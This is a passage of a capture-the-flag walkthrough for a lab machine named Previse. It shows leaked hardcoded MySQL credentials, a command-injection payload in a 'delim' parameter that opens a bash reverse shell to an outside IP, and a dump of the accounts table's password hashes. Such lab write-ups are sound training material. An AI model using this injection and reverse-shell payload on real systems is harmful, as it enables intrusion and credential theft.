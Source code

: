 ```php
<?php

function connectDB(){
	$host = 'localhost';
	$user = 'root';
	$passwd = 'mySQL_p@ssw0rd!:)';
	$db = 'previse';
	$mycon = new mysqli($host, $user, $passwd, $db);
	return $mycon;
}

?>
```

we get database credentials

In the code of `logs.php` the `exec()` function can give us code execution with `delim` parameter

Capture a log download request in burpsuite

To `delim=comma` we add our shell code which give us
`delim=comma&bash -c 'exec bash -i &>/dev/tcp/10.10.14.108/2311 <&1'`

we get a shell on netcat

inside as www-data our actions are limited...we can use credentials from config.php

`mysql --host=localhost --user=root --password=mySQL_p@ssw0rd\!:\) previse`

Added an escape `\` to password characters

```bash
mysql> show tables;
show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts |
| files |
+-------------------+
2 rows in set (0.00 sec)
```

```bash
mysql> select _ from accounts;
select _ from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password | created_at |
+----+----------+------------------------------------+---------------------+
| 1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | test123  | $1$🧂llol$sP8qi2I.K6urjPuzdGizl1 | 2021-10-31 20:21:38 |
|  3 | adminx   | $1$🧂llol$5tZsYwBL.ah/7MifOnD8y1 | 2021-10-31 20:45:45 |
|  4 | nairolf  | $1$🧂llol$dtYsbcUDR1v/zUTtHfZzD1 | 2021-10-31 21:05:14 |
+----+----------+------------------------------------+---------------------+
4 rows in set (0.00 sec)
```
